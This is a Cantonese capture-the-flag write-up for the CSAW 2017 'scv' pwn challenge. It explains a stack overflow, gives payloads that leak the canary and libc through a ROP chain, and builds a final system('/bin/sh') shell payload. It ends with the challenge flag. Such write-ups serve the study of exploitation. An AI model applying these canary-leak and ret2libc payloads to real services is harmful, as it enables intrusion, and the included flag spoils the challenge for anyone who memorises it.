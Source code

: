 # CSAW 2017 pwn 100 scv

# 題目:


>                                         SCV
>            SCV is too hungry to mine the minerals. Can you give him some food?
>                                 nc pwn.chal.csaw.io 3764

>[scv](scv)

>[ibc-2.23.so](ibc-2.23.so)


呢題有少少煩,不過唔難

Checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
IO dump:

```
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>

```

有3個function:

1.入buffer

2.print buffer

3.exit


Ida code (由於好多廢話,所以淨係留重點)

```C++
                .
                .
 char buf; // [sp+10h] [bp-B0h]@6
                .
                .

   v23 = read(0, &buf, 248uLL);             .

```

有用嘅其實只有一/兩句,其他都係廢話

呢兩句identify 左有buffer overflow, buffer只有176 byte,但係可以讀248,仲唔死

asm code:

```asm
.text:0000000000400A96 buf             = byte ptr -0B0h
.text:0000000000400A96 var_8           = qword ptr -8
.text:0000000000400A96
.text:0000000000400A96                 push    rbp
.text:0000000000400A97                 mov     rbp, rsp
.text:0000000000400A9A                 sub     rsp, 0C0h
.text:0000000000400AA1                 mov     rax, fs:28h
.text:0000000000400AAA                 mov     [rbp+var_8], rax
.text:0000000000400AAE                 xor     eax, eax
.text:0000000000400AB0                 mov     rax, cs:stdout

```

我地知道canary 係rbp-8, 只要leak到canary,就可以任意寫return address, get shell

經過少少測試之後,會發現print buffer function會print多左8個位 or until \x00

我地知道嘅尾數係\x00, 所以我地只要寫到尾數做其他野就leak到canary

leak canary payload= payload='b'*167+'a'+'g'

只要將leak到嘅canary減0x67(g),就等於canary number

下一步就係leak libc address..

係之前d測試,除左發現會print多左8個位之外,我仲發現只要寫爛左canary,一禁exit 就可以stack check fail,姐係代表我地可以用exit return去其他return address,只要我地拎到canary, return address 就任我地寫

由於有nx,所以只可以rop return to libc解決

由於係x64,x64有calling convention,puts係讀rdi嘅parameters,所以就一個pop_rdi_ret gadget mov puts or whatever got 入去,俾puts_plt print

Print 完再彈返去main

full gadget= pop_rdi_ret+PUTSGOT+PUTSPLT+main

```python

payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(PUTSGOT)+p64(PUTSPLT)+p64(main)

```


呢到要注意一樣野,main係要跳返去initial variable個部份,不過因為個process冇熄過,所以canary同libcbase係唔會改

拎晒libc_base 之後,加返d offset,係入buffer個個位入:

```python

payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(libc_bin_sh)+p64(system)+p64(main)

```

禁exit 就會彈shell 

```
flag: flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}

```
